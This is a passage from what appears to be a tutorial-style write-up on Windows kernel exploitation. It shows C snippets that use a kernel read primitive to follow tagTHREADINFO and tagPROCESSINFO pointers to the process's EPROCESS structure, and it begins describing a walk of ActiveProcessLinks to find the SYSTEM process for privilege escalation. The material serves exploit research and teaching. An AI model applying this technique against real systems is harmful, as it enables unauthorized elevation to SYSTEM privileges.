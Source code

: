 If we look at offset 0x158 we will see a pointer to a tagPROCESSINFO structure.

{% highlight c %}
ULONG64 tagTHREADINFO = 0;
readQWORD(tagWNDKernelAddress + 0x10,&tagTHREADINFO);
ULONG64 tagPROCESSINFOAddress = 0;
readQWORD(tagTHREADINFO + 0x158,&tagPROCESSINFOAddress);
{% endhighlight %}
<br>

<div align='center'><img src="/images/tagPROCESSINFO.png" height="300" width="700" > </div> <br>

As you can see in the picture above, the first field of the tagPROCESSINFO  is a pointer to the current process EPROCESS structure!

This means that we can just use our kernel Read Primitive to access the first field of the tagPROCESSINFO structure and obtain the address of our process' EPROCESS structure!

{% highlight c %}
ULONG64 tagTHREADINFO = 0;
readQWORD(tagWNDKernelAddress + 0x10,&tagTHREADINFO);
ULONG64 tagPROCESSINFOAddress = 0;
readQWORD(tagTHREADINFO + 0x158,&tagPROCESSINFOAddress);
ULONG64 eprocessAddress = 0;
readQWORD(tagPROCESSINFOAddress,&eprocessAddress);
{% endhighlight %}


In order to get the address of the SYSTEM EProcess structure, we will need to iterate the LIST_ENTRY ActiveProcessLinks field starting from our process’ EPROCESS structure looking for an EPROCESS structure having PID 0x4 (the SYSTEM process) as you can see in the example code below:
